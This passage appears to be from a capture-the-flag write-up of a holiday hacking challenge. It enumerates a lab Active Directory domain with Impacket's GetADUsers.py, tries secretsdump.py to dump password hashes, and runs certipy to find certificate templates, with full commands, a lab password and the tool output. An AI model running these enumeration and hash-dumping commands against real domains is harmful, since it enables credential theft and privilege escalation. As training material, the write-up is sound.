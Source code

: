 We can see the `wombleycube` user belongs to `NORTHPOLE\wombleycube` which is
not `researchers`, but they were mentioned in the hint. We cannot find any users
for the `researchers` group anyways so I guess we can concentrate on that.

Different way to get the users:

```
$ GetADUsers.py northpole.local/elfy:'J4`ufC49/J4766' -dc-ip 10.0.0.53 -all
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Querying 10.0.0.53 for information about domain.
Name                  PasswordLastSet             LastLogon
--------------------  -------------------         -------------------
alabaster             2023-12-13 01:10:31.560964  2023-12-13 03:44:12.652777
Guest                 <never>                     <never>
krbtgt                2023-12-13 01:17:09.824614  <never>
elfy                  2023-12-13 01:19:38.018905  2023-12-13 02:23:44.438829
wombleycube           2023-12-13 01:19:38.112684  2023-12-13 03:40:17.052271
```

Cannot dump hashes with secretsdump.py because our user doesn't have access.

```
$ secretsdump.py northpole.local/elfy:'J4`ufC49/J4766'@10.0.0.53 -dc-ip 10.0.0.53 -debug
Impacket v0.11.0 - Copyright 2023 Fortra

[error removed]
```

One of the previous challenge hints talked about how AD can have the same
certificate issues. One tool that was mentioned in the Reportinator challenge
was `certipy` which is in included in this machine.

```
certipy find -u elfy@northpole.local -p 'J4`ufC49/J4766' -dc-ip 10.0.0.53

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'northpole-npdc01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'northpole-npdc01-CA' via CSRA:
    CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'northpole-npdc01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'northpole-npdc01-CA'
[*] Saved BloodHound data to '20231213035603_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20231213035603_Certipy.txt'
[*] Saved JSON output to '20231213035603_Certipy.json'
```


[c-c]: https://developer.chrome.com/docs/devtools/application/cookies
[comb]: https://www.youtube.com/watch?v=27rE5ZvWLU0
[linux-lpe]: https://payatu.com/blog/a-guide-to-linux-privilege-escalation/
[lug]: https://www.youtube.com/watch?v=ycM1hBSEyog
[cld]: https://www.cloudflare.com/learning/email-security/dmarc-dkim-spf/
[kusto]: https://detective.kusto.io/sans2023
[clus]: https://dataexplorer.azure.com/freecluster
